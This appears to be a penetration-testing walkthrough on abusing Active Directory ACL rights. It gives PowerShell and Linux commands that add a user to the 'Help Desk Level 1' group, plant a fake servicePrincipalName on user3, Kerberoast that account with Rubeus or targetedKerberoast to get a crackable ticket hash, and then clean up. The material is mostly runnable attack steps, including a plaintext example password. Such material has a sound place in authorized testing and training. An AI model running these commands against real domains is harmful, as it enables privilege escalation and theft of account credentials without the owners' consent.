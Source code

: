 ### Add-DomainGroupMember
```powershell
# Creating a SecureString Object using user2
PS > $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS > $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\user', $SecPassword) 

# Adding user2 to the Help Desk Level 1 Group
PS > Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'user2' -Credential $Cred2 -Verbose
PS > Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

# Confirming user2 was Added to the Group**
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the user3. Now, let's say that our client permitted us to change the password of the user2, but the user3 is an admin account that cannot be interrupted. Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the Information Technology group for this to be successful. Since we added damundsen to the Help Desk Level 1 group, we inherited rights via nested group membership. We can now use Set-DomainObject to create the fake SPN. We could use the tool targetedKerberoast [https://github.com/ShutdownRepo/targetedKerberoast] to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

### Creating a Fake SPN
```powershell
PS > Set-DomainObject -Credential $Cred2 -Identity user3 -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```bash
$ targetedKerberoast.py -d <domain> -u <user> -p <pass>
```

#### Kerberoasting with Rubeus
```
PS > .\Rubeus.exe kerberoast /user:user3 /nowrap
```

#### Cleanup
```powershell
# Removing the Fake SPN from user3's Account
PS > Set-DomainObject -Credential $Cred2 -Identity user3 -Clear serviceprincipalname -Verbose

# Removing user2 from the Help Desk Level 1 Group
PS > Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'user2' -Credential $Cred2 -Verbose

# Confirming user2 was Removed from the Group
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'user2'} -Verbose
```
